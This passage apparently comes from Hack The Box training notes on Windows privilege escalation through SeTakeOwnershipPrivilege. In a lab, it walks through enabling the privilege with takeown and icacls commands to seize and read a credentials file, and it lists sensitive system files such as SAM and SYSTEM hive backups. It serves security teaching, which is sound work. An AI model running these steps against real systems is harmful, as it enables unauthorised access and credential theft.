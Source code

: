 # SeTakeOwnershipPrivilege

## **Leveraging the Privilege**

```powershell
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                              State
============================= ======================================================= ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                                Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                          Disabled
```

### Enabling SeTakeOwnershipPrivilege

Notice from the output that the privilege is not enabled. We can enable it using this [script](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) which is detailed in [this](https://www.leeholmes.com/blog/2010/09/24/adjusting-token-privileges-in-powershell/) blog post, as well as [this](https://medium.com/@markmotig/enable-all-token-privileges-a7d21b1a4a77) one which builds on the initial concept.

```powershell
PS C:\htb> Import-Module .\Enable-Privilege.ps1
PS C:\htb> .\EnableAllTokenPrivs.ps1
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
```

**Choosing a target file**

```powershell
PS C:\htb> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
FullName                                 LastWriteTime         Attributes Owner
--------                                 -------------         ---------- -----
C:\Department Shares\Private\IT\cred.txt 6/18/2021 12:23:28 PM    Archive
```

**Checking File Ownership**

```powershell
PS C:\htb> cmd /c dir /q 'C:\Department Shares\Private\IT'

 Volume in drive C has no label.
 Volume Serial Number is 0C92-675B

 Directory of C:\Department Shares\Private\IT

06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  .
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  ..
06/18/2021  12:23 PM                36 ...                    cred.txt
               1 File(s)             36 bytes
               2 Dir(s)  17,079,754,752 bytes free
```

**Taking Ownership of the File**

```powershell
PS C:\htb> takeown /f 'C:\Department Shares\Private\IT\cred.txt'

SUCCESS: The file (or folder): "C:\Department Shares\Private\IT\cred.txt" now owned by user "WINLPE-SRV01\htb-student".
```

**Confirm ownership changed**

```powershell
PS C:\htb> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
Name     Directory                       Owner
----     ---------                       -----
cred.txt C:\Department Shares\Private\IT WINLPE-SRV01\htb-student
```

**Modifying ACL**

```powershell
PS C:\htb> cat 'C:\Department Shares\Private\IT\cred.txt'

cat : Access to the path 'C:\Department Shares\Private\IT\cred.txt' is denied.
At line:1 char:1
+ cat 'C:\Department Shares\Private\IT\cred.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Department Shares\Private\IT\cred.txt:String) [Get-Content], Unaut
   horizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```

Let's grant our user full privileges over the target file.

```powershell
PS C:\htb> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F

processed file: C:\Department Shares\Private\IT\cred.txt
Successfully processed 1 files; Failed processing 0 files
```

### Reading the File

If all went to plan, we can now read the target file from the command
 line, open it if we have RDP access, or copy it down to our attack 
system for additional processing (such as cracking the password for a 
KeePass database.

```powershell
PS C:\htb> cat 'C:\Department Shares\Private\IT\cred.txt'

NIX01 admin

root:n1X_p0wer_us3er!
```

### Files of Interest

Some local files of interest may include:

```
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav

```